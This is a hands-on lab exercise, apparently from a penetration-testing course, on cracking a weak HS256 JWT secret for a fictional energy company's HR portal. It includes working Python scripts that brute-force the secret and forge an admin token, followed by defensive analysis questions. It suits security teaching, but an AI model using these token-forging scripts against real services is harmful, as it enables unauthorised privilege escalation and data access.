


Exercise MEG2.2: Authentication Bypass
Before You Begin
You should have completed Exercise MEG2.1 (Portal SQL Injection). Your VPN must be connected. The HR portal credentials are the same ones you used in Chapter 1 (MEG1.2). In this exercise, you will go beyond logging in: you will crack the JWT signing secret, forge an admin token, and access the internal API.
Scenario
Meridian Energy Group's HR portal uses JSON Web Tokens (JWTs) for session management. After logging in as Karen Mitchell (HR Director), the server issues a JWT cookie that contains the user's role. The JWT is signed with HS256 using a weak secret: the company name "meridian." Your objective is to decode the token, crack the signing secret, forge a new token with the role changed to "admin," and use the admin session to discover an internal API. Querying the API with the credentials found on the admin panel reveals the flag.

Credentials:
| Username | Password | Context |
|---|---|---|
| k.mitchell@meridian-energy.corp | Karen2024# | HR Director |
Targets:
| Hostname | IP Offset | Role |
|---|---|---|
| hr.meridian-energy.corp | +10 | HR portal with JWT authentication |
| api.meridian-energy.corp | +11 | Internal API (discovered from admin panel) |
Your Objectives
- Log in to the HR portal and capture the JWT from the session cookie
- Decode the JWT payload to understand its structure (user, role, expiry)
- Crack the HS256 signing secret
- Forge a new JWT with the role set to "admin"
- Access the admin panel using the forged token
- Discover internal API credentials on the admin panel
- Query the internal API to extract the flag
- Submit the flag in
OCR{...}format
Difficulty: Intermediate Estimated time: 35 minutes
Background: JSON Web Tokens (JWT)
Token Structure
A JWT consists of three Base64URL-encoded parts separated by dots:
| Part | Contains | Encoded |
|---|---|---|
| Header | Algorithm and token type | {"alg":"HS256","typ":"JWT"} |
| Payload | Claims (user data, role, expiry) | {"user":"k.mitchell","role":"staff"} |
| Signature | HMAC of header + payload using the secret key | Binary hash |
The server creates the token at login and sends it as a cookie. On each subsequent request, the browser sends the cookie back. The server verifies the signature to confirm the token was not tampered with.
Why Weak Secrets Are Dangerous
HS256 uses a symmetric key: the same secret both signs and verifies the token. If the secret is weak (a dictionary word, a company name, a short string), an attacker can brute-force it offline. Once the secret is known, the attacker can forge tokens with any claims they choose: changing their role to admin, changing their user ID, or extending the expiry indefinitely.
Cracking the Secret
The attack works offline because the attacker already has a valid token (captured from their own session). They try candidate secrets one at a time, signing the header and payload with each candidate, and comparing the result to the known-good signature. When the signatures match, the candidate is the secret.
flowchart LR
A["Capture JWT"] --> B["Decode Header + Payload"]
B --> C["Try candidate secret"]
C --> D{"Signature match?"}
D -->|No| C
D -->|Yes| E["Secret found"]
E --> F["Forge new token<br/>role = admin"]Tools You Will Need
| Tool | Purpose | Example |
|---|---|---|
curl |
HTTP requests and cookie capture | curl -s -c cookies.txt http://target/login |
python3 |
Base64 decoding and token forging | python3 -c "import base64; ..." |
jwt_tool (optional) |
JWT analysis, cracking, and forging | python3 jwt_tool.py <token> -C -d wordlist |
Flag Progress
The flag has 1 part returned by the internal API.
| Part | Source | Token | Found? |
|---|---|---|---|
| 1 | Internal API query using admin credentials | ________ |
Flag format: OCR{...}
Solution Walkthrough
Independent Mode
You know the signing secret is "meridian" and the target role is "admin." Try forging the token and finding the API on your own.
Step 1: Add Hostnames and Log In
Ensure both hostnames are in your hosts file.
Kali - Add hostnames to /etc/hosts
Log in to the HR portal and capture the JWT cookie.
Kali - Log in and save cookies
The -v flag enables verbose output so you can see response headers. Look for a Set-Cookie header containing the JWT. The cookie name may be token, session, jwt, or similar. Record the full token value.
Alternatively, check the saved cookies file:
Look for the JWT value. It will be a long string with two dots separating three Base64-encoded sections.
Step 2: Decode the JWT Payload
A JWT payload is Base64URL-encoded. You can decode it without knowing the secret, because the signature only protects integrity, not confidentiality.
Kali - Decode the JWT payload with Python
Replace <paste_your_jwt_here> with the actual token from your cookie. The output shows the claims in the token payload. Look for fields like:
userorsub- the usernamerole- the user's authorization level (likely "staff" or "user")exp- the token expiry timestamp
Record the exact field names and values. You need to know the structure to forge a valid admin token.
Step 3: Decode the JWT Header
Decode the first part of the token to confirm the signing algorithm.
Kali - Decode the JWT header
Confirm the algorithm is HS256. HS256 uses HMAC-SHA256 with a symmetric secret key, which means cracking the secret gives you full control over token generation.
Step 4: Crack the JWT Signing Secret
The secret is the company name: "meridian." You can verify this by signing the known header and payload with the candidate secret and comparing the result to the original signature.
Kali - Verify the signing secret with Python
python3 -c "
import hmac, hashlib, base64
token = '<paste_your_jwt_here>'
parts = token.split('.')
signing_input = parts[0] + '.' + parts[1]
secret = 'meridian'
sig = base64.urlsafe_b64encode(
hmac.new(secret.encode(), signing_input.encode(), hashlib.sha256).digest()
).rstrip(b'=').decode()
original_sig = parts[2]
print(f'Computed: {sig}')
print(f'Original: {original_sig}')
print(f'Match: {sig == original_sig}')
"
If Match: True is printed, the secret is confirmed. In a real engagement, you would use a wordlist-based approach if the secret is not immediately obvious:
Kali - Brute-force the secret with a wordlist (alternative approach)
python3 -c "
import hmac, hashlib, base64
token = '<paste_your_jwt_here>'
parts = token.split('.')
signing_input = (parts[0] + '.' + parts[1]).encode()
original_sig = parts[2]
candidates = ['password', 'secret', 'meridian', 'energy', 'admin', 'default']
for word in candidates:
sig = base64.urlsafe_b64encode(
hmac.new(word.encode(), signing_input, hashlib.sha256).digest()
).rstrip(b'=').decode()
if sig == original_sig:
print(f'Secret found: {word}')
break
"
The script tries each candidate word as the signing secret and reports a match when found.
Step 5: Forge an Admin Token
Now that you know the secret, create a new JWT with the role changed to "admin."
Kali - Forge a JWT with admin role
python3 -c "
import hmac, hashlib, base64, json, time
header = {'alg': 'HS256', 'typ': 'JWT'}
payload = {
'user': 'k.mitchell@meridian-energy.corp',
'role': 'admin',
'exp': int(time.time()) + 3600
}
secret = 'meridian'
def b64url(data):
return base64.urlsafe_b64encode(data).rstrip(b'=').decode()
h = b64url(json.dumps(header, separators=(',', ':')).encode())
p = b64url(json.dumps(payload, separators=(',', ':')).encode())
sig = b64url(hmac.new(secret.encode(), f'{h}.{p}'.encode(), hashlib.sha256).digest())
print(f'{h}.{p}.{sig}')
"
The script creates a new JWT header and payload, signs them with the cracked secret, and outputs the complete forged token. Copy the entire output string.
Payload Field Names
Make sure the field names in your forged payload match exactly what you saw when decoding the original token in Step 2. If the original used sub instead of user, or authorization instead of role, adjust accordingly.
Step 6: Access the Admin Panel
Replace your session cookie with the forged token and access the admin panel.
Kali - Access the admin panel with the forged JWT
Replace token with the actual cookie name from Step 1, and <forged_jwt_here> with the token you generated in Step 5. If the forged token is accepted, you will see the admin panel content.
Read the response carefully. Look for:
- Internal API endpoint URLs
- API keys or authentication tokens
- Service account credentials
- References to other internal systems
The admin panel should reveal an internal API at api.meridian-energy.corp along with credentials or an API key needed to access it.

Step 7: Query the Internal API
Using the credentials or API key found on the admin panel, query the internal API.
Kali - Query the internal API with discovered credentials
If the API uses a different authentication method (Basic auth, API key header, etc.), adjust accordingly based on what the admin panel disclosed:
Kali - Alternative: API key in a custom header
Kali - Alternative: Basic authentication
Explore the API response. Look for endpoints that return sensitive data or the flag directly. Common paths include /secrets, /flag, /data, or /v1/.
Kali - Search API responses for the flag
Submit the flag in the platform.
Record Your Findings
JWT cookie name:
___________Original JWT payload:
Signing algorithm:
___________Cracked secret:
___________Admin panel disclosures:
Detail Value API endpoint API key/credentials Flag:
OCR{...}
Analysis Questions
1. Why is the company name a poor choice for a JWT signing secret? What properties should a signing secret have?
Reveal Answer
The company name is publicly known, short, and easily guessable. An attacker who captures any valid token can test common words (including the company name) against the signature offline, with no rate limiting or lockout. A strong JWT signing secret should be at least 256 bits (32 bytes) of cryptographically random data, generated by a secure random number generator. It should not be a dictionary word, a name, or any predictable value. Secrets should also be rotated periodically and stored securely (in a secrets manager, not in source code).
2. The JWT payload contained the user's role. Why is storing authorization data in a client-side token risky?
Reveal Answer
Client-side tokens are visible to the user and can be decoded without the signing secret (Base64 is encoding, not encryption). If the signing secret is compromised, the attacker can modify the role claim to escalate their privileges. Even with a strong secret, storing sensitive authorization data in the token means that any token leak (logging, URL parameters, browser history) exposes the user's role. A more secure approach stores only a session identifier in the token and looks up the user's role from the database on each request. The server-side approach ensures that role changes (promotions, demotions, revocations) take effect immediately.
3. What is the difference between HS256 and RS256, and why would RS256 have prevented this attack?
Reveal Answer
HS256 (HMAC-SHA256) is symmetric: the same secret key signs and verifies tokens. Anyone who knows the secret can both create and validate tokens. RS256 (RSA-SHA256) is asymmetric: a private key signs tokens and a public key verifies them. With RS256, only the server holding the private key can create valid tokens. Even if the public key is exposed (which is expected), an attacker cannot forge tokens because they lack the private key. The HS256 attack in this exercise required cracking a single shared secret. With RS256, the attacker would need to steal the server's private key, which is a much harder target.
4. The admin panel disclosed API credentials. What principle of secure design does this violate, and how should API credentials be managed?
Reveal Answer
Displaying API credentials on a web panel violates the principle of least privilege and secure credential management. API keys should be stored in a secrets manager (such as HashiCorp Vault or AWS Secrets Manager), accessed programmatically by authorized services, and never displayed in web interfaces. If administrative access to the credentials is necessary, it should require multi-factor authentication, generate audit logs, and display the credential only briefly (or allow only rotation, not viewing). The admin panel should also enforce role-based access to ensure that only specifically authorized administrators can view sensitive configuration.
Key Takeaways
- JWTs are transparent by design. The payload is Base64-encoded, not encrypted. Anyone can read the claims without the signing secret.
- Weak signing secrets allow token forgery. If the secret is a dictionary word or predictable string, offline cracking is trivial.
- HS256 is symmetric. Knowing the secret lets you both verify and create tokens. RS256 asymmetric signing prevents this class of attack.
- Authorization data in client-side tokens must be verified server-side. Trusting the role claim in a JWT without server-side validation gives attackers a privilege escalation path.
- Admin panels should never display secrets in the clear. API keys and credentials require secure storage, audited access, and rotation policies.
What is Next
In Exercise MEG2.3, you will exploit the IT helpdesk's stored XSS vulnerability. By injecting JavaScript into a support ticket, you will steal the admin's session cookie when they review your ticket, then use the stolen session to access the admin panel.